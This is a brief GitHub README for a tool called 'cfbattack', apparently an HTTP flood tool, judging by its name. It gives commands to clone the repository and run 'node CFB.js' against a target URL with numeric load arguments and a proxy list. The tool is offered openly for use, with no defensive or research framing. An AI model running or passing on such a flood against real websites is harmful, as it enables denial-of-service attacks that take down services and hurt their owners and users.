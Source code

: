 # cfbattack
CFB ATTACK HTTP RAW

```bash
 git clone https://github.com/cazzysoci/cfbattack

 cd cfbattack

 node CFB.js https://example.com 1000 100 proxy.txt
```

